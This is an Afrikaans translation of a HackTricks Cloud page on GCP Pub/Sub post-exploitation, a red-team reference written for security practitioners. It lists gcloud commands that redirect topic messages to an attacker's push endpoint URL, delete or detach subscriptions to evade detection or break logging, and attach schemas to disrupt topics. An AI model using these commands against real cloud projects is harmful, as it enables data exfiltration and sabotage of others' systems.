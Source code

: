 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Vir meer inligting oor Pub/Sub kyk na die volgende bladsy:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publiseer 'n boodskap in 'n onderwerp, nuttig om **onverwagte data** te **stuur** en onverwagte funksies te aktiveer of kwesbaarhede te benut:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Nuttig om 'n subskripsie te verhoed om boodskappe te ontvang, dalk om opsporing te vermy.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Nuttig om 'n intekening te verhoed om boodskappe te ontvang, miskien om opsporing te vermy.\
Dit is moontlik om 'n onderwerp te verwyder selfs met intekeninge daaraan geheg.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Gebruik hierdie toestemming om 'n instelling van die onderwerp op te dateer om dit te ontwrig, soos `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Gee jouself toestemming om enige van die vorige aanvalle uit te voer.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Kry al die boodskappe in 'n webbediener:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Skep 'n subskripsie en gebruik dit om **boodskappe te trek**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Verwyder 'n subskripsie** kan nuttig wees om 'n logverwerkingsstelsel of iets soortgelyks te ontwrig:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Gebruik hierdie toestemming om 'n instelling op te dateer sodat boodskappe in 'n plek gestoor word wat jy kan toegang (URL, Big Query tabel, Bucket) of net om dit te ontwrig. 

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Gee jouself die toestemmings wat nodig is om enige van die voorheen kommentaar gemaak aanvalle uit te voer.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Aanval 'n skema op 'n onderwerp sodat die boodskappe dit nie vervul nie en daarom die onderwerp ontwrig word.\
As daar geen skemas is nie, moet jy dalk een skep.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Dit mag lyk asof jy 'n skema verwyder, maar jy sal in staat wees om boodskappe te stuur wat nie aan die skema voldoen nie. Tog, aangesien die skema verwyder sal word, sal geen boodskap werklik in die onderwerp inkom nie. So dit is **NUTTIG**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Gee jouself die toestemmings wat nodig is om enige van die voorheen kommentaar gemaak aanvalle uit te voer.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Dit sal 'n snapshot van al die onACKed boodskappe skep en dit terug na die inskrywing plaas. Nie baie nuttig vir 'n aanvaller nie, maar hier is dit:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
